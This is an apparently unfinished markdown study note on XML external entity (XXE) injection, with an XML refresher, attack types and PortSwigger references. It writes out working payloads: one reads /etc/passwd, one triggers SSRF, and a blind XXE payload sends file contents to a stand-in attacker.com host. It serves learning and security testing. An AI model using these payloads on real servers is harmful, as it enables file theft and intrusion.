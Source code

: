 # XML external entity (XXE) injection :syringe:

Uses XML data processing by a server to execute attacks against a server.  Can allow an attacker to:

- Read files on the server;
- Compromise the server; or
- Execute SSRF attacks.

Attacks occur when applications use XML to transmit data and do not disable potentially dangerous processing of XML entities.

:bulb: This type was more prevelant before JSON became the dominant data transfer format, but it is still sometimes exploitable.

## XML refresher

- `XML entities`: represent special characters in XML documents such as `&amp;`, `&gt;` and `&lt;`.
- `Document type definition (DTD)`: defines the structure of an XML document.  DTD is defined using a `DOCTYPE` tag.
- `XML custom entity`: define a custom entity in a DTD: `<!DOCTYPE foo [ <!ENTITY bar "bambaz" > ]>` which will cause `&bar;` to be replaced with the value `bambaz`.
- `XML external entity`: define an external entity in a DTD using the `SYSTEM` keyword.  They can be referenced from a local file or URL: 
```xml
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

Most XXE attacks are caused by XML external entities.

## XXE attacks

- `Retrieve file contents`: `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>` will cause the contents of `/etc/passwd` to be returned.
- `Perform SSRF attack`: `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://internal-website.com" > ]>` will cause the contents of `http://internal-website.com` to be returned.
- `Blind XXE to exfiltrate data`: 
```xml
# Cause the contents of `/etc/passwd` to be send to http://attacher.com
<!DOCTYPE foo [ <!ENTITY % file SYSTEM "file:///etc/passwd" >
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>"> %eval; %exfiltrate; ]>`
```
- `Blind XXE to retrieve data via error messages`: attacker triggers an XML parsing error that leaks sensitive data.

:bulb: When testing for XXE vulnerabilities, you will often need to test each node of the XML document to see if it is vulnerable.

### Retrieve file contents
 

## Prevent

- Disable as much XML processing as possible.

## Tools

## References

- https://portswigger.net/web-security/xxe
- https://portswigger.net/web-security/xxe/blind
- https://portswigger.net/web-security/xxe/xml-entities